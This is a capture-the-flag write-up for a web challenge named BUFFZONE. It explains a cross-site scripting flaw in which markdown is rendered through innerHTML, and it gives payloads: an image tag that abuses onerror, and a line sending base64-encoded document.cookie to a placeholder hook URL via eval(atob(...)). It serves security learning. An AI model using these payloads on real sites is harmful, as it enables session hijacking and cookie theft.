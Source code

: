 # BUFFZONE (Web Exploitation)

### The Vulnerability:

1. User enters text, which is then parsed through a markdown parser.
2. URLs are replaceable with clickable links.
3. Parsed content is displayed using `innerHTML`.

### The Exploit:

Markdown allows users to add images using the format:
```
![catshttps://onerror=alert(1)//]()
```
When image fails to load, onerror is triggered.

### Payload:

```js
window.open(`{HOOK_URL}?x=${btoa(document.cookie)}`);
```

Cookie is retrieved using this payload.

```
**![catshttps://onerror=eval(atob('d2l=='))//]()**
```

Passing our js payload to this decrypts the payload and executes it, thereby fetching the cookie. Hence, flag.